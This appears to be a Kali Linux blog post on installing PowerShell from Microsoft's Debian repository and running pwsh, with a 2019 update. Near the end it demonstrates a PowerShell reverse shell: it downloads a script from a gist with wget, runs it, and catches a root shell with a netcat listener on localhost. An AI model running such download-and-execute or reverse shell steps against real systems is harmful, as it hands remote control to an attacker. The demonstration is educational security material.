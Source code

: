 ```yaml
---
title: "Installing PowerShell on Kali Linux"
date: Wed, 06 Jun 2018 00:00:00 +0000
draft: false
type: posts
---
```

# Installing PowerShell on Kali Linux

https://www.kali.org/blog/installing-powershell-on-kali-linux/images/powershell-on-kali-linux-v3.jpg



UPDATE NOV 2019 This post is out of date as of 2019 as powershell has been added to the primary repos. Just do a: apt update &amp;&amp; apt -y install powershell And you will have powershell on your system. Old Post You may already be aware that you can safely add external repositories to your

**UPDATE NOV 2019**
-------------------

This post is out of date as of 2019 as powershell has been added to the primary repos. Just do a:

```sh
apt update && apt -y install powershell
```

And you will have powershell on your system.

### Old Post

You may already be aware that you can safely [add external repositories to your Kali Linux installation](https://www.kali.org/blog/advanced-package-management-in-kali-linux/) but you may not be aware that one of the many repositories available online includes one from Microsoft that includes [PowerShell](https://github.com/PowerShell/PowerShell). The repository is for Debian but its packages install perfectly well on Kali, as we will show in this post.

### PowerShell Package Installation in Kali

We begin by installing the necessary dependencies, most of which should already be installed in your Kali installation by default:

```sh
apt update && apt -y install curl gnupg apt-transport-https
```

Next, we need to download and add the public repository GPG key so APT will trust the packages and alert you to any issues with package signatures:

```sh
curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
```

With the GPG key added, we proceed to add the Microsoft package repository to its own package list file under **/etc/apt/sources.list.d/** and update the list of available packages:

```sh
echo "deb [arch=amd64] https://packages.microsoft.com/repos/microsoft-debian-stretch-prod stretch main" > /etc/apt/sources.list.d/powershell.list
apt update
```

Finally, we proceed to install the powershell package:

```sh
apt -y install powershell
```

### Running PowerShell

When the package installation completes, running **pwsh** will start up PowerShell, presenting us with the familiar “PS” prompt:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root>
```

If you’re new to PowerShell, one of the first things you will likely want to do is update the built-in help, which can be done by running the **Update-Help** Cmdlet. This may take a little while to complete but only really needs to be run once in a rare while:

```console
PS /root> Update-Help
Updating Help for module Microsoft.PowerShell.Utility
Locating Help Content...
```

As you might expect, you won’t find all the commands you’re used to when using PowerShell on Windows but all of the core modules are present and the code is under constant development and improvement:

```console
PS /root> Get-Process -Name gnome*
NPM(K) PM(M) WS(M) CPU(s) Id SI ProcessName
------ ----- ----- ------ -- -- -----------
0 0.00 5.71 0.03 1073 072 gnome-keyring-d
0 0.00 9.80 0.19 659 649 gnome-session-b
0 0.00 13.72 0.36 1089 080 gnome-session-b
0 0.00 110.06 3.36 778 649 gnome-shell
0 0.00 277.15 27.85 1170 080 gnome-shell
0 0.00 11.77 0.09 1199 075 gnome-shell-cal
0 0.00 77.79 4.58 1381 080 gnome-software
0 0.00 36.58 2.03 1646 646 gnome-terminal-
```

One of the surprising things you _can_ do however, is use PowerShell to send a reverse shell to a Netcat listener. We came across a [small PowerShell reverse shell](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1) online and much to our surprise, it happily connected back to our listener:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root> wget -q https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1
PS /root> ./mini-reverse.ps1
────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -lvnp 413
listening on [any] 413 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59006
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux kali 4.15.0-kali3-amd64 #1 SMP Debian 4.15.17-1kali1 (2018-04-25) x86_64 GNU/Linux
```

We think it’s remarkable that, not only did Microsoft Open-source PowerShell, they’ve also been constantly updating and improving it, and having a public package repository for it makes installation a breeze.

#### [Source](https://www.kali.org/blog/installing-powershell-on-kali-linux/)

